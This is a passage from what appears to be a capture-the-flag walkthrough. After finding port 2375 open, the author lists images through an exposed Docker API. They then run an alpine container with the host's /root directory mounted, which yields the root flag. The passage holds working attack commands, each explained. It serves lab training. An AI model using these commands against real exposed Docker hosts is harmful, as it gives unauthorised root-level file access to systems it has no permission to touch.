 We can see that port **2375** is now open!

<br>

We can use `docker` to list out the images installed on the target machine:

```
docker -H tcp://10.10.169.214:2375 images
```

<img style="float: left;" src="screenshots/screenshot22.png">

The first thing I noticed was the **alpine** image.

---

*Alpine (https://alpinelinux.org/) is a Linux distribution built around musl libc and BusyBox.* 

---

After doing some research online, I found out that we can actually mount a folder on the real machine onto a folder within a container. The command to do so is:

```
docker -H tcp://10.10.169.214:2375 run -it --rm -v /root:/mnt/root alpine:3.9
```

*`-H`: used to indicate the host that is running docker*

*`-it`: used to spawn an interactive container (that we can use like a shell)*

*`--rm`: used to remove the mount on the image after exiting*

*`-v /root:/mnt/root`: mount the /root directory on the real machine to /mnt/root on the container*

*`alpine:3.9`: indicate which image to use for the container*

<br>

<img style="float: left;" src="screenshots/screenshot23.png">

Once the command is run, we are placed in a shell within a newly created alpine container. 

We can then navigate to **/mnt/root** to access the **/root** directory on the real machine.

<img style="float: left;" src="screenshots/screenshot24.png">

In there we can find the real root flag!
